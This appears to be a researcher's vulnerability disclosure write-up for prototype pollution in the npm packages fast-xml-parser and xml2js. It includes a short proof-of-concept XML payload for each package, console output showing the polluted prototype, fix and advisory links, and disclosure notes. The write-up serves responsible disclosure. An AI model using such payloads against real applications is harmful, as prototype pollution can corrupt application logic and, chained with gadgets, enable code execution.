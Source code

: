 # fast-xml-parser

I was auditing another application and found that they were using 
`fast-xml-parser` parse uploaded xml files.

The package description says *Validate XML, Parse XML to JS Object, or Build XML from JS Object without C/C++ based libraries and no callback.*

*Parse XML to JS Object* - this sounded very interesting and I knew I should test for prototype pollution as many other packages which *convert json to js objects* were found to be vulnerable in the past and it turned out yeah this package was vulnerable to it.

https://www.npmjs.com/package/fast-xml-parser

![image](https://user-images.githubusercontent.com/31372554/232062163-c4a4494c-429e-416b-ab41-3e3bc38aef6a.png)


https://github.com/NaturalIntelligence/fast-xml-parser

Taking an example code from the github repo to demonstrate the bug:


```js
const { XMLParser, XMLBuilder, XMLValidator} = require("fast-xml-parser");


let XMLdata = "<__proto__><polluted>hacked</polluted></__proto__>"

const parser = new XMLParser();
let jObj = parser.parse(XMLdata);


console.log(jObj.polluted) // should return hacked
```

![Code_G3UvvJcSv5](https://user-images.githubusercontent.com/31372554/218308540-86792929-3631-4580-8373-4651487418b5.png)

In the above screenshot you can see the `jObj` was polluted with a new property.

```js
jObj
>{}
jObj.__proto__
>{polluted: 'hacked'}
jObj.__proto__.polluted
>'hacked'
```

More information on prototype pollution can be found here: https://learn.snyk.io/lessons/prototype-pollution/javascript/

As it is common for developers to pass user controllable input to `XMLParser` , this can to do unexpected results. By chaining it with some prototype pollution gadget it might even can lead to RCE in some cases https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/


Fix commit: https://github.com/NaturalIntelligence/fast-xml-parser/commit/2b032a4f799c63d83991e4f992f1c68e4dd05804

They are now validating, if the key contains `__proto__` and replaces it with `#__proto__`

CVE is still pending 

The package maintainer @amitguptagwl was very swift in replies and addressing the reported issue :)


SNYK Advisory: https://security.snyk.io/vuln/SNYK-JS-FASTXMLPARSER-3325616

----------------------------

# xml2js

This package was also found to be vulnerable to the exact same vuln prototype pollution  (fast-xml-parser).
This one offers the same features like we have in fast-xml-parser, converting xml to js object.

https://www.npmjs.com/package/xml2js

![image](https://user-images.githubusercontent.com/31372554/232061839-ea220cb5-8ba8-4fbc-89ea-6f97c7267437.png)


Here are the details, the vulnerability is prototype pollution.

Taking an example code from the github repo to demonstrate the bug:



```js
var parseString = require('xml2js').parseString;
var xml = "<__proto__><polluted>hacked</polluted></__proto__>"
parseString(xml, function (err, result) {
    console.dir(result);
});
```




In the attached screenshot you can see the `result` object was polluted with a new property.

```js
result
>{}
result.__proto__
>{polluted: 'hacked'}
result.__proto__.polluted
>'hacked'
```

More information on prototype pollution can be found here: https://learn.snyk.io/lessons/prototype-pollution/javascript/



It was really hard to get in contact with the maintainer,so I took help of Snyk Vulnerability Disclosure (https://snyk.io/vulnerability-disclosure/). I forwarded them the details in the end of Feb 2023 and recived more information on 10 Apr

![image](https://user-images.githubusercontent.com/31372554/232063590-87222517-f0ce-4864-af0e-b91baf9044ee.png)

So it seems this was already reported by some other researcher way back in 2020 : https://security.snyk.io/vuln/SNYK-JS-XML2JS-5414874

https://github.com/Leonidas-from-XIV/node-xml2js/issues/593

